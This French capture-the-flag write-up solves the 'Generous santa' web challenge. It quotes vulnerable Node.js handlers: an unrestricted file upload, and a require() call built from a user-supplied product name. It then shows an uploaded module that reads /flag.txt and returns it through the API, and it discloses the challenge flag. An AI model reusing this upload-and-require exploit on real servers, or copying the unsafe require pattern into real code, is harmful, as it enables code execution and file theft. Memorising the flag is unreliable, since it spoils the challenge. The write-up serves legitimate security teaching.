



### Generous santa

Le site propose deux fonctions :
* Ajouter des cadeaux à sa liste de noël parmi la liste proposée
* Suggérer une idée de cadeau à ajouter dans la liste

Deux fonctions sont proposées sur le site de commande de cadeaux et qu'on peut retrouver dans le code source en tant que fonction backend

**/api/suggest**
```js
const now = new Date();
const dateStr = now.toISOString().split('T')[0];
const timeStr = `${now.getHours()}-${now.getMinutes()}-${now.getSeconds()}`;
const tempDir = path.join('/tmp', `${dateStr}_${timeStr}`);
fs.mkdirSync(tempDir, { recursive: true });
const tempPath = path.join(tempDir, req.file.originalname);
fs.writeFile(tempPath, req.file.buffer, (err) => {
if (err) {
	return res.status(500).json({ message: `Error saving the image: ${err.message}` });
}
res.json({ message: `Thank you! Santa will consider your suggestion.`, photoPath: tempPath });
});
```
Qui permet de renseigner un nom de produit au père noël et d'uploader une photo du produit dans le répertoire /tmp/'date'/'filename'/

**/api/add**
```js
const Gift = require(`../models/${product.toLowerCase()}`);
const gift = new Gift({ name: product, description: `Description of ${product}` });
output = gift.store();
res.json({ success: true, output: output });
```

Le code appel un template javascript dans le sous-répertoire 'app path'/models/'product name'. 

En jouant un peu avec la fonction d'upload, on se rend compte qu'il n'y a aucune restriction sur le type de fichier qu'on peut upload. 

En ayant inspectant les requêtes, on remarque que /api/add renvoie un message de succès plusieurs champs. On va s'en servir pour exfiltrer le contenu du flag.



En écrivant un module personnalisé, et en l'uploadant :

```js
const fs = require('fs');

class Gift {
    constructor({ name = 'Default Gift', description = 'Default Description' } = {}) {
        this.name = name;
        this.description = description;
    }
    store() {
        try {
            const flagContent = fs.readFileSync('/flag.txt', 'utf8');
            return `${flagContent}`;
        } catch (err) {
            console.error('Erreur lors de la lecture de /flag.txt :', err.message);
        }
        return "Une erreur est survenue lors de la lecture du flag :/";
    }
}

module.exports = Gift;
```



Il est possible d'éxecuter le code à l'aide de cette requête :



Here's the flag :) `RM{Mayb3_S4nt4_Cl4uS_Als0_G3t_A_Flag}`
